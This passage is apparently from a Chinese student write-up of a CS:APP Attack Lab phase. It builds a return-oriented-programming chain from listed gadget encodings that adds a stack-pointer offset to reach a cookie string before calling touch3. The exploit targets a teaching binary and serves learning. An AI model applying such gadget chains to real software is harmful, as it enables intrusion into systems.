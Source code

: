 ```assembly
  401abe:	90 	nop
  401abf:	90 	nop
```

据Writeup给出的编码表可知，在上述代码中，可以使用的字节序列（已使用中括号标出）有：

```assembly
# 省略了ret、nop以及functional nop指令
# popq指令
58 => popq %rax
5c => popq %rsp

# movq指令
48 89 c7 => movq %rax, %rdi
48 89 e0 => movq %rsp, %rax

# movl指令
89 c2 => movl %eax, %edx
89 ce => movl %ecx, %esi
89 d1 => movl %edx, %ecx
89 e0 => movl %esp, %eax
```

思路：栈的位置是随机的，无法直接得到cookie的起始地址。鉴于该情况，可以使用栈顶地址加上偏移量来确定cookie的起始地址。

注意到，在函数add_xy:

```assembly
add_xy:
  4019d6:	48 8d 04 37 	leaq	(%rdi,%rsi), %rax
  4019da:	c3 	retq
```

指令`leaq (%rdi,%rsi), %rax`先将%rdi和%rsi的值相加，再将结果存入%rax中。这正好对应了栈顶地址+偏移量，即将栈顶地址存入%rdi中，将地址偏移量存入%rsi中。

根据前面得出的、本次实验能够使用的gadget，可以写出如下的汇编代码（省略了所有的ret指令）：

```assembly
# 将栈顶地址存入%rdi中
movq %rsp, %rax
movq %rax, %rdi

# 将偏移量存入%esi中
popq %rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi

# cookie的存储地址=栈顶地址+偏移量
leaq	(%rdi,%rsi), %rax
movq %rax, %rdi
# 函数touch3的起始地址

# cookie的起始地址与返回地址相隔9条指令，而每条指令占8个字节，因此，偏移量为9×8=72=0x48
```
